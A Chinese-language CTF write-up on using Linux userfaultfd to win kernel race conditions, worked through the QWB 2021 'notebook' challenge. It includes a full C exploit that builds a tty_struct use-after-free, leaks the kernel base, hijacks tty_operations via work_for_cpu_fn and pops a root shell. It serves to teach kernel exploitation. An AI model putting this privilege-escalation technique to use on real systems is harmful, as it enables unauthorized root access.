

# 用 userfaultfd 创造条件竞争

## 概述

严格意义而言 userfaultfd 并非是一种利用手法，**而是 Linux 的一个系统调用**，简单来说，通过 userfaultfd 这种机制，**用户可以通过自定义的 page fault handler 在用户态处理缺页异常**。

下面的这张图很好地体现了 userfaultfd 的整个流程：


要使用 userfaultfd 系统调用，我们首先要注册一个 userfaultfd，通过 ioctl 监视一块内存区域，同时还需要专门启动一个用以进行轮询的线程 `uffd monitor`，该线程会通过 `poll()` 函数不断轮询**直到出现缺页异常**

- 当有一个线程在这块内存区域内触发缺页异常时（比如说第一次访问一个匿名页），该线程（称之为 faulting 线程）进入到内核中处理缺页异常
- 内核会调用 `handle_userfault()` 交由 userfaultfd 处理
- 随后 faulting 线程进入堵塞状态，同时将一个 `uffd_msg` 发送给 monitor 线程，等待其处理结束
- monitor 线程调用通过 ioctl 处理缺页异常，有如下选项：
  - `UFFDIO_COPY`：将用户自定义数据拷贝到 faulting page 上
  - `UFFDIO_ZEROPAGE` ：将 faulting page 置 0
  - `UFFDIO_WAKE`：用于配合上面两项中 `UFFDIO_COPY_MODE_DONTWAKE` 和 `UFFDIO_ZEROPAGE_MODE_DONTWAKE` 模式实现批量填充 
- 在处理结束后 monitor 线程发送信号唤醒 faulting 线程继续工作

以上便是 userfaultfd 这个机制的整个流程，该机制最初被设计来用以进行虚拟机/进程的迁移等用途，但是**通过这个机制我们可以控制进程执行流程的先后顺序，从而使得对条件竞争的利用成功率大幅提高**，比如在如下的操作时：

```c
copy_from_user(kptr, user_buf, size);
```

如果在进入函数后，实际拷贝开始前线程被中断换下 CPU，别的线程执行，修改了 kptr 指向的内存块的所有权（比如 kfree 掉了这个内存块），然后再执行拷贝时就可以实现 UAF。这种可能性当然是比较小的，但是如果 user_buf 是一个 mmap 的内存块，并且我们为它注册了 userfaultfd，那么在拷贝时出现缺页异常后此线程会先执行我们注册的处理函数，在处理函数结束前线程一直被暂停，结束后才会执行后面的操作，大大增加了竞争的成功率。

## 使用方法

在 [Linux man page](https://man7.org/linux/man-pages/man2/userfaultfd.2.html) 当中便已经为我们提供了 userfaultfd 的基本使用模板，我们只需要稍加修改便能直接投入到实战当中，下面笔者给出自用的为特定内存注册 userfaultfd monitor 的模板：

```c
void err_exit(char *msg)
{
    printf("\033[31m\033[1m[x] Error at: \033[0m%s\n", msg);
    exit(EXIT_FAILURE);
}

void register_userfaultfd(pthread_t *monitor_thread, void *addr,
                          unsigned long len, void *(*handler)(void*))
{
    long uffd;
    struct uffdio_api uffdio_api;
    struct uffdio_register uffdio_register;
    int s;

    /* Create and enable userfaultfd object */
    uffd = syscall(__NR_userfaultfd, O_CLOEXEC | O_NONBLOCK);
    if (uffd == -1)
        err_exit("userfaultfd");

    uffdio_api.api = UFFD_API;
    uffdio_api.features = 0;
    if (ioctl(uffd, UFFDIO_API, &uffdio_api) == -1)
        err_exit("ioctl-UFFDIO_API");

    uffdio_register.range.start = (unsigned long) addr;
    uffdio_register.range.len = len;
    uffdio_register.mode = UFFDIO_REGISTER_MODE_MISSING;
    if (ioctl(uffd, UFFDIO_REGISTER, &uffdio_register) == -1)
        err_exit("ioctl-UFFDIO_REGISTER");

    s = pthread_create(monitor_thread, NULL, handler, (void *) uffd);
    if (s != 0)
        err_exit("pthread_create");
}

```

我们可以直接通过如下操作来为一块匿名的 mmap 内存注册 userfaultfd：

```c
register_userfaultfd(thread, addr, len, handler);
```

需要注意的是 handler 的写法，这里笔者直接照抄 Linux man page 改了改，可以根据个人需求进行个性化改动：

```c
static char *uffd_src_page = NULL; // 你要拷贝进去的数据
static long uffd_src_page_size = 0x1000;

static void *
fault_handler_thread(void *arg)
{
    static struct uffd_msg msg;
    static int fault_cnt = 0;
    long uffd;

    struct uffdio_copy uffdio_copy;
    ssize_t nread;

    uffd = (long) arg;

    for (;;) 
    {
        struct pollfd pollfd;
        int nready;
        pollfd.fd = uffd;
        pollfd.events = POLLIN;
        nready = poll(&pollfd, 1, -1);

        /*
         * [在这停顿.jpg]
         * 当 poll 返回时说明出现了缺页异常
         * 你可以在这里插入一些比如说 sleep() 一类的操作，
		 * 例如等待其他进程完成对象的重分配后再重新进行拷贝一类的，也可以直接睡死 ：）
         */

        if (nready == -1)
            err_exit("poll");

        nread = read(uffd, &msg, sizeof(msg));

        if (nread == 0)
            err_exit("EOF on userfaultfd!\n");

        if (nread == -1)
            err_exit("read");

        if (msg.event != UFFD_EVENT_PAGEFAULT)
            err_exit("Unexpected event on userfaultfd\n");

        uffdio_copy.src = (unsigned long) uffd_src_page;
        uffdio_copy.dst = (unsigned long) msg.arg.pagefault.address &
                                              ~(uffd_src_page_size - 1);
        uffdio_copy.len = page_size;
        uffdio_copy.mode = 0;
        uffdio_copy.copy = 0;
        if (ioctl(uffd, UFFDIO_COPY, &uffdio_copy) == -1)
            err_exit("ioctl-UFFDIO_COPY");
    }
}
```

## 例题：QWB2021-notebook

这里以强网杯 2021 的 notebook 一题为例解释 userfaultfd 在条件竞争中的使用。

### 分析

首先看一下启动脚本

```shell
#!/bin/sh
stty intr ^]
qemu-system-x86_64 \
    -m 64M \
    -kernel bzImage \
    -initrd rootfs.cpio \
    -append "loglevel=3 console=ttyS0 oops=panic panic=1 kaslr" \
    -nographic -net user -net nic -device e1000 \
    -smp cores=2,threads=2 -cpu kvm64,+smep,+smap \
    -monitor /dev/null 2>/dev/null -s
```

append 时把 loglevel 开到了 3，建议把这个去掉，调试起来会好判断一点（可以看到驱动 printk 的内容）。

程序的流程比较简单，也没有去符号，这里就不分析了。程序主要的漏洞就是条件竞争造成的 UAF。

首先先说一下读写锁，其性质为：

* 当写锁被取走时，所有取锁操作被阻塞
* 当读锁被取走时，取写锁的操作被阻塞

恰当的使用读写锁可以在提高程序性能的前提下保证线程同步。题目中的驱动程序在 noteedit 和 noteadd 操作中取了读锁，仅在 notedel 操作中取了写锁。其余操作都没有锁保护。而两个取读锁的操作实际上都有写操作，但是他们又是可以并发的，这样就很可能存在条件竞争的漏洞。


这是 noteedit 操作的部分代码，这里的 krealloc 并未对 newsize 做任何限制。同时并没有及时更新 note 指针，反而在更新前加入了 copy_from_user 的操作，那么就可以考虑通过 userfaultfd 操作卡死当前线程，避免 note 的更新，这样就可以保留一个被 kfree 的 slab 的指针。这样操作的问题是 note 的 size 被更新为了 0，之后 read 和 write 操作就无法读写数据了。


不过在 add 操作时，也类似的在更新 size 前加入了 copy_from_user 的操作，我们也可以把线程卡死在这里，把 size 改为 0x60。

因此，我们可以做到

* 申请任意大小的 slab。虽然 add 操作限制了 size 最大为 0x60，但是通过 edit 可以 krealloc 出任意大小的 slab
* UAF 任意大小的 slab。不过只能控制前 0x60 字节的数据

### 利用

由于 edit 函数中使用了 `copy_from_user()`，这为 userfaultfd 的介入提供了可能性，我们可以：

- 分配一个特定大小的 note
- 新开 edit 线程通过 `krealloc(0)` 将其释放**，并通过 userfaultfd 卡在这里**

**此时 notebook 数组中的 object 尚未被清空，仍是原先被释放了的 object，我们只需要再将其分配到别的内核结构体上便能完成 UAF**

这里我们还是选择最经典的 `tty_struct` 来完成利用，由于题目提供了读取堆块的功能，故我们可以直接通过 `tty_struct` 中的 `tty_operations` 泄露内核基地址，其通常被初始化为**全局变量** `ptm_unix98_ops` 或 `pty_unix98_ops `

开启了 kaslr 的内核在内存中的偏移依然以内存页为粒度，故我们可以通过比对 tty\_operations 地址的低三16进制位来判断是 `ptm_unix98_ops` 还是 `pty_unix98_ops `

由于题目提供了写入堆块的功能，故我们可以直接通过修改 `tty_struct->tty_operations` 后操作 tty（例如read、write、ioctl...这会调用到函数表中的对应函数指针）的方式劫持内核执行流，同时 `notegift()` 会白给出 notebook 里存的 object 的地址，那么我们可以直接把 `fake tty_operations` 布置到 note 当中。

不过相比于传统的构造冗长的栈迁移的 ROP chain，长亭在 WP 中提到了一个很有趣的 trick，[原文链接](https://zhuanlan.zhihu.com/p/385645268)。这里引用原文

> 控制 rip 之后，下一步就是绕过 SMEP 和 SMAP 了，这里介绍一种在完全控制了 tty 对象的情况下非常好用的 trick，完全不用 ROP，非常简单，且非常稳定（我们的 exploit 在利用成功和可以正常退出程序，甚至关机都不会触发 kernel panic）。
>
> 内核中有这样的一个函数：
>
> 
>
> 其编译后大概长这样：
>
> 
>
> 该函数位于 workqueue 机制的实现中，只要是开启了多核支持的内核 （CONFIG_SMP）都会包含这个函数的代码。不难注意到，这个函数非常好用，只要能控制第一个参数指向的内存，即可实现带一个任意参数调用任意函数，并把返回值存回第一个参数指向的内存的功能，且该 "gadget" 能干净的返回，执行的过程中完全不用管 SMAP、SMEP 的事情。由于内核中大量的 read / write / ioctl 之类的实现的第一个参数也都恰好是对应的对象本身，可谓是非常的适合这种场景了。考虑到我们提权需要做的事情只是 commit_creds(prepare_kernel_cred(0))，完全可以用两次上述的函数调用原语实现。（如果还需要禁用 SELinux 之类的，再找一个任意地址写 0 的 gadget 即可，很容易找）

利用这个原语就可以比较容易的任意函数执行了。

在利用过程当中我们还需要注意两点：

- 由于题目环境存在多个 CPU core，因此我们应当使用 `sched_setaffinity()` 将进程绑定到指定核心上，从而确保内核对象分配的稳定性，而无需进行堆喷射
- `tty_struct` 的结构也被我们所破坏了，在完成提权之后我们应该将其内容恢复原样

### exp

最后进行稳定化提权的 exp 如下：

```c
/**
 * Copyright (c) 2021 arttnba3 <arttnba@gmail.com>
 * 
 * This work is licensed under the terms of the GNU GPL, version 2 or later.
**/

#define _GNU_SOURCE

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <string.h>
#include <pthread.h>
#include <sys/types.h>
#include <sys/mman.h>
#include <sys/syscall.h>
#include <sys/ioctl.h>
#include <sys/sem.h>
#include <semaphore.h>
#include <stdint.h>
#include <poll.h>

/**
 * Kernel Pwn Infrastructure
**/

size_t kernel_base = 0xffffffff81000000, kernel_offset = 0;

void err_exit(char *msg)
{
    printf("\033[31m\033[1m[x] Error at: \033[0m%s\n", msg);
    exit(EXIT_FAILURE);
}

/* root checker and shell poper */
void get_root_shell(void)
{
    if(getuid()) {
        puts("\033[31m\033[1m[x] Failed to get the root!\033[0m");
        exit(EXIT_FAILURE);
    }

    puts("\033[32m\033[1m[+] Successful to get the root. \033[0m");
    puts("\033[34m\033[1m[*] Execve root shell now...\033[0m");
    
    system("/bin/sh");
    
    /* to exit the process normally, instead of segmentation fault */
    exit(EXIT_SUCCESS);
}

/* userspace status saver */
size_t user_cs, user_ss, user_rflags, user_sp;

void save_status()
{
    asm volatile(
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
    );
    
    puts("\033[34m\033[1m[*] Status has been saved.\033[0m");
}

/* bind the process to specific core */
void bind_core(int core)
{
    cpu_set_t cpu_set;

    CPU_ZERO(&cpu_set);
    CPU_SET(core, &cpu_set);
    sched_setaffinity(getpid(), sizeof(cpu_set), &cpu_set);

    printf("\033[34m\033[1m[*] Process binded to core \033[0m%d\n", core);
}

/**
 * Kernel structure
**/

struct file;
struct file_operations;
struct tty_struct;
struct tty_driver;
struct serial_icounter_struct;
struct ktermios;
struct termiox;
struct seq_file;

struct tty_operations {
    struct tty_struct * (*lookup)(struct tty_driver *driver,
            struct file *filp, int idx);
    int  (*install)(struct tty_driver *driver, struct tty_struct *tty);
    void (*remove)(struct tty_driver *driver, struct tty_struct *tty);
    int  (*open)(struct tty_struct * tty, struct file * filp);
    void (*close)(struct tty_struct * tty, struct file * filp);
    void (*shutdown)(struct tty_struct *tty);
    void (*cleanup)(struct tty_struct *tty);
    int  (*write)(struct tty_struct * tty,
              const unsigned char *buf, int count);
    int  (*put_char)(struct tty_struct *tty, unsigned char ch);
    void (*flush_chars)(struct tty_struct *tty);
    int  (*write_room)(struct tty_struct *tty);
    int  (*chars_in_buffer)(struct tty_struct *tty);
    int  (*ioctl)(struct tty_struct *tty,
            unsigned int cmd, unsigned long arg);
    long (*compat_ioctl)(struct tty_struct *tty,
                 unsigned int cmd, unsigned long arg);
    void (*set_termios)(struct tty_struct *tty, struct ktermios * old);
    void (*throttle)(struct tty_struct * tty);
    void (*unthrottle)(struct tty_struct * tty);
    void (*stop)(struct tty_struct *tty);
    void (*start)(struct tty_struct *tty);
    void (*hangup)(struct tty_struct *tty);
    int (*break_ctl)(struct tty_struct *tty, int state);
    void (*flush_buffer)(struct tty_struct *tty);
    void (*set_ldisc)(struct tty_struct *tty);
    void (*wait_until_sent)(struct tty_struct *tty, int timeout);
    void (*send_xchar)(struct tty_struct *tty, char ch);
    int (*tiocmget)(struct tty_struct *tty);
    int (*tiocmset)(struct tty_struct *tty,
            unsigned int set, unsigned int clear);
    int (*resize)(struct tty_struct *tty, struct winsize *ws);
    int (*set_termiox)(struct tty_struct *tty, struct termiox *tnew);
    int (*get_icount)(struct tty_struct *tty,
                struct serial_icounter_struct *icount);
    void (*show_fdinfo)(struct tty_struct *tty, struct seq_file *m);
#ifdef CONFIG_CONSOLE_POLL
    int (*poll_init)(struct tty_driver *driver, int line, char *options);
    int (*poll_get_char)(struct tty_driver *driver, int line);
    void (*poll_put_char)(struct tty_driver *driver, int line, char ch);
#endif
    const struct file_operations *proc_fops;
};

/**
 * kernel-relaetd numerical value
**/

#define TTY_STRUCT_SIZE 0x2e0

#define PTM_UNIX98_OPS 0xffffffff81e8e440
#define PTY_UNIX98_OPS 0xffffffff81e8e320
#define COMMIT_CREDS 0xffffffff810a9b40
#define PREPARE_KERNEL_CRED 0xffffffff810a9ef0
#define WORK_FOR_CPU_FN 0xffffffff8109eb90

/**
 * Syscall userfaultfd() operator
**/
#define UFFD_API ((uint64_t)0xAA)
#define _UFFDIO_REGISTER		(0x00)
#define _UFFDIO_COPY			(0x03)
#define _UFFDIO_API			(0x3F)

/* userfaultfd ioctl ids */
#define UFFDIO 0xAA
#define UFFDIO_API		_IOWR(UFFDIO, _UFFDIO_API,	\
				      struct uffdio_api)
#define UFFDIO_REGISTER		_IOWR(UFFDIO, _UFFDIO_REGISTER, \
				      struct uffdio_register)
#define UFFDIO_COPY		_IOWR(UFFDIO, _UFFDIO_COPY,	\
				      struct uffdio_copy)

/* read() structure */
struct uffd_msg {
	uint8_t	event;

	uint8_t	reserved1;
	uint16_t	reserved2;
	uint32_t	reserved3;

	union {
		struct {
			uint64_t	flags;
			uint64_t	address;
			union {
				uint32_t ptid;
			} feat;
		} pagefault;

		struct {
			uint32_t	ufd;
		} fork;

		struct {
			uint64_t	from;
			uint64_t	to;
			uint64_t	len;
		} remap;

		struct {
			uint64_t	start;
			uint64_t	end;
		} remove;

		struct {
			/* unused reserved fields */
			uint64_t	reserved1;
			uint64_t	reserved2;
			uint64_t	reserved3;
		} reserved;
	} arg;
} __attribute__((packed));

#define UFFD_EVENT_PAGEFAULT	0x12

struct uffdio_api {
    uint64_t api;
    uint64_t features;
    uint64_t ioctls;
};

struct uffdio_range {
    uint64_t start;
    uint64_t len;
};

struct uffdio_register {
	struct uffdio_range range;
#define UFFDIO_REGISTER_MODE_MISSING	((uint64_t)1<<0)
#define UFFDIO_REGISTER_MODE_WP		((uint64_t)1<<1)
    uint64_t mode;
    uint64_t ioctls;
};


struct uffdio_copy {
	uint64_t dst;
	uint64_t src;
	uint64_t len;
#define UFFDIO_COPY_MODE_DONTWAKE		((uint64_t)1<<0)
	uint64_t mode;
	int64_t copy;
};

char temp_page_for_stuck[0x1000];

void register_userfaultfd(pthread_t *monitor_thread, void *addr,
                          unsigned long len, void *(*handler)(void*))
{
    long uffd;
    struct uffdio_api uffdio_api;
    struct uffdio_register uffdio_register;
    int s;

    /* Create and enable userfaultfd object */
    uffd = syscall(__NR_userfaultfd, O_CLOEXEC | O_NONBLOCK);
    if (uffd == -1) {
        err_exit("userfaultfd");
    }

    uffdio_api.api = UFFD_API;
    uffdio_api.features = 0;
    if (ioctl(uffd, UFFDIO_API, &uffdio_api) == -1) {
        err_exit("ioctl-UFFDIO_API");
    }

    uffdio_register.range.start = (unsigned long) addr;
    uffdio_register.range.len = len;
    uffdio_register.mode = UFFDIO_REGISTER_MODE_MISSING;
    if (ioctl(uffd, UFFDIO_REGISTER, &uffdio_register) == -1) {
        err_exit("ioctl-UFFDIO_REGISTER");
    }

    s = pthread_create(monitor_thread, NULL, handler, (void *) uffd);
    if (s != 0) {
        err_exit("pthread_create");
    }
}

void *uffd_handler_for_stucking_thread(void *args)
{
    struct uffd_msg msg;
    int fault_cnt = 0;
    long uffd;

    struct uffdio_copy uffdio_copy;
    ssize_t nread;

    uffd = (long) args;

    for (;;) {
        struct pollfd pollfd;
        int nready;
        pollfd.fd = uffd;
        pollfd.events = POLLIN;
        nready = poll(&pollfd, 1, -1);

        if (nready == -1) {
            err_exit("poll");
        }

        nread = read(uffd, &msg, sizeof(msg));

        /* just stuck there is okay... */
        sleep(100000000);

        if (nread == 0) {
            err_exit("EOF on userfaultfd!\n");
        }

        if (nread == -1) {
            err_exit("read");
        }

        if (msg.event != UFFD_EVENT_PAGEFAULT) {
            err_exit("Unexpected event on userfaultfd\n");
        }

        uffdio_copy.src = (unsigned long long) temp_page_for_stuck;
        uffdio_copy.dst = (unsigned long long) msg.arg.pagefault.address &
                                                    ~(0x1000 - 1);
        uffdio_copy.len = 0x1000;
        uffdio_copy.mode = 0;
        uffdio_copy.copy = 0;
        if (ioctl(uffd, UFFDIO_COPY, &uffdio_copy) == -1) {
            err_exit("ioctl-UFFDIO_COPY");
        }

        return NULL;
    }
}

void register_userfaultfd_for_thread_stucking(pthread_t *monitor_thread, 
                                          void *buf, unsigned long len)
{
    register_userfaultfd(monitor_thread, buf, len, 
                         uffd_handler_for_stucking_thread);
}

/**
 * Challenge interactor
**/

#define NOTE_NUM 0x10

struct note {
    size_t idx;
    size_t size;
    char * buf;
};

struct knotebook {
    void *ptr;
    size_t size;
};

int note_fd;
sem_t evil_add_sem, evil_edit_sem;
char *uffd_buf;
char temp_page[0x1000] = { "arttnba3" };

void note_add(size_t idx, size_t size, char * buf)
{
    struct note note = {
        .idx = idx,
        .size = size,
        .buf = buf,
    };

    ioctl(note_fd, 0x100, &note);
}

void note_del(size_t idx)
{
    struct note note = {
        .idx = idx,
    };

    ioctl(note_fd, 0x200, &note);
}

void note_edit(size_t idx, size_t size, char * buf)
{
    struct note note = {
        .idx = idx,
        .size = size,
        .buf = buf,
    };

    ioctl(note_fd, 0x300, &note);
}

void note_gift(void *buf)
{
    struct note note = {
        .buf = buf,
    };

    ioctl(note_fd, 100, &note);
}

ssize_t note_read(int idx, void *buf)
{
    return read(note_fd, buf, idx);
}

ssize_t note_wriite(int idx, void *buf)
{
    return write(note_fd, buf, idx);
}

/**
 * Exploite stage
**/

void* fix_size_by_add(void *args)
{
    sem_wait(&evil_add_sem);
    note_add(0, 0x60, uffd_buf);
}

void* construct_uaf(void * args)
{
    sem_wait(&evil_edit_sem);
    note_edit(0, 0, uffd_buf);
}

void exploit()
{
    struct knotebook kernel_notebook[NOTE_NUM];
    struct tty_operations fake_tty_ops;
    pthread_t uffd_monitor_thread, add_fix_size_thread, edit_uaf_thread;
    size_t fake_tty_struct_data[0x100], tty_ops, orig_tty_struct_data[0x100];
    size_t tty_struct_addr, fake_tty_ops_addr;
    int tty_fd;

    /* fundamental infastructure */
    save_status();
    bind_core(0);

    sem_init(&evil_add_sem, 0, 0);
    sem_init(&evil_edit_sem, 0, 0);

    /* open dev */
    note_fd = open("/dev/notebook", O_RDWR);
    if (note_fd < 0) {
        err_exit("failed to open /dev/notebook!");
    }

    /* register userfaultfd */
    puts("[*] register userfaultfd...");

    uffd_buf = (char *) mmap(
        NULL,
        0x1000,
        PROT_READ | PROT_WRITE, 
        MAP_PRIVATE | MAP_ANONYMOUS,
        -1,
        0
    );
    register_userfaultfd_for_thread_stucking(
        &uffd_monitor_thread,
        uffd_buf,
        0x1000
    );

    /* get a tty-size object */
    puts("[*] allocating tty_struct-size object...");

    note_add(0, 0x10, "arttnba3rat3bant");
    note_edit(0, TTY_STRUCT_SIZE, temp_page);

    /**
     * construct UAF by userfaultfd.
     * Note that we need to sleep(1) there to wait for the kfree() to be done,
     * so that the UAF object can be regetted later.
    */
    puts("[*] constructing UAF on tty_struct...");

    pthread_create(&edit_uaf_thread, NULL, construct_uaf, NULL);
    pthread_create(&add_fix_size_thread, NULL, fix_size_by_add, NULL);

    sem_post(&evil_edit_sem);
    sleep(1);

    /**
     * fix notebook[0]->size.
     * Note that we need to sleep(1) there to wait for the `size` to be fixed.
    */
    sem_post(&evil_add_sem);
    sleep(1);

    /* leak kernel_base by tty_struct */
    puts("[*] leaking kernel_base by tty_struct");

    tty_fd = open("/dev/ptmx", O_RDWR| O_NOCTTY);
    note_read(0, orig_tty_struct_data);

    if (*(int*) orig_tty_struct_data != 0x5401) {
        err_exit("failed to hit the tty_struct!");
    }

    tty_ops = orig_tty_struct_data[3];
    kernel_offset = (tty_ops & 0xfff) == (PTY_UNIX98_OPS & 0xfff) 
                    ? (tty_ops - PTY_UNIX98_OPS)
                    : tty_ops - PTM_UNIX98_OPS;
    kernel_base += kernel_offset;
    printf("\033[34m\033[1m[*] Kernel offset: \033[0m0x%lx\n", kernel_offset);
    printf("\033[32m\033[1m[+] Kernel base: \033[0m0x%lx\n", kernel_base);

    /* construct fake tty_ops */
    puts("[*] construct fake tty_operations...");

    fake_tty_ops.ioctl = (void*) (kernel_offset + WORK_FOR_CPU_FN);
    note_add(1, 0x50, temp_page);
    note_edit(1, sizeof(struct tty_operations), temp_page);
    note_wriite(1, &fake_tty_ops);

    /* get kernel addr of tty_struct and tty_ops by gift */
    puts("[*] leaking kernel heap addr by gift...");

    note_gift(&kernel_notebook);
    tty_struct_addr = (size_t) kernel_notebook[0].ptr;
    fake_tty_ops_addr = (size_t) kernel_notebook[1].ptr;

    printf("[+] tty_struct at 0x%lx\n", tty_struct_addr);
    printf("[+] fake_tty_ops at 0x%lx\n", fake_tty_ops_addr);

    /* prepare_kernel_cred(NULL) */
    puts("[*] triger commit_creds(prepare_kernel_cred(NULL)) and fix tty...");

    memcpy(fake_tty_struct_data, orig_tty_struct_data, 0x2e0);
    fake_tty_struct_data[3] = fake_tty_ops_addr;
    fake_tty_struct_data[4] = kernel_offset + PREPARE_KERNEL_CRED;
    fake_tty_struct_data[5] = (size_t) NULL;

    note_wriite(0, fake_tty_struct_data);

    ioctl(tty_fd, 233, 233);

    /* commit_creds(&root_cred) */
    note_read(0, fake_tty_struct_data);
    fake_tty_struct_data[4] = kernel_offset + COMMIT_CREDS;
    fake_tty_struct_data[5] = fake_tty_struct_data[6];
    fake_tty_struct_data[6] = orig_tty_struct_data[6];

    note_wriite(0, fake_tty_struct_data);

    ioctl(tty_fd, 233, 233);

    /* fix tty_struct */
    memcpy(fake_tty_struct_data, orig_tty_struct_data, 0x2e0);
    note_wriite(0, fake_tty_struct_data);

    /* pop root shell */
    get_root_shell();
}

int main(int argc, char **argv, char **envp)
{
    exploit();
    return 0;
}

```

## 新版本内核对抗 userfaultfd 在 race condition 中的利用

正所谓“没有万能的银弹”，可能有的人会发现在较新版本的内核中 userfaultfd 系统调用无法成功启动：


这是因为在较新版本的内核中修改了变量 `sysctl_unprivileged_userfaultfd` 的值：

> 来自 linux-5.11 源码`fs/userfaultfd.c`：

```c
int sysctl_unprivileged_userfaultfd __read_mostly;
//...
SYSCALL_DEFINE1(userfaultfd, int, flags)
{
    struct userfaultfd_ctx *ctx;
    int fd;

    if (!sysctl_unprivileged_userfaultfd &&
        (flags & UFFD_USER_MODE_ONLY) == 0 &&
        !capable(CAP_SYS_PTRACE)) {
        printk_once(KERN_WARNING "uffd: Set unprivileged_userfaultfd "
            "sysctl knob to 1 if kernel faults must be handled "
            "without obtaining CAP_SYS_PTRACE capability\n");
        return -EPERM;
    }
//...
```

> 来自 linux-5.4 源码`fs/userfaultfd.c`：

```c
int sysctl_unprivileged_userfaultfd __read_mostly = 1;
//...
```

在之前的版本当中 `sysctl_unprivileged_userfaultfd` 这一变量被初始化为 `1`，而在较新版本的内核当中这一变量并没有被赋予初始值，**编译器会将其放在 bss 段，默认值为 0**

这意味着在较新版本内核中**只有 root 权限才能使用 userfaultfd**，这或许意味着刚刚进入大众视野的 userfaultfd 可能又将逐渐淡出大众视野，但不可否认的是，userfaultfd 确乎为我们在 Linux kernel 中的条件竞争利用提供了一个全新的思路与一种极其稳定的利用手法

## Reference

> [【PWN.0x00】Linux Kernel Pwn I：Basic Exploit to Kernel Pwn in CTF](https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I/)
> 
> [linux kernel pwn学习之条件竞争(二)userfaultfd](https://blog.csdn.net/seaaseesa/article/details/104650794?utm_medium=distribute.pc_relevant.none-task-blog-2%7Edefault%7EBlogCommendFromBaidu%7Edefault-6.control&depth_1-utm_source=distribute.pc_relevant.none-task-blog-2%7Edefault%7EBlogCommendFromBaidu%7Edefault-6.control)
>
> [https://zhuanlan.zhihu.com/p/385645268](https://zhuanlan.zhihu.com/p/385645268)
>
> [https://www.cjovi.icu/WP/1455.html](https://www.cjovi.icu/WP/1455.html)
>
> [https://www.cjovi.icu/WP/1468.html](https://www.cjovi.icu/WP/1468.html)
>
> [从内核到用户空间(1) — 用户态缺页处理机制 userfaultfd 的使用](http://blog.jcix.top/2018-10-01/userfaultfd_intro/)

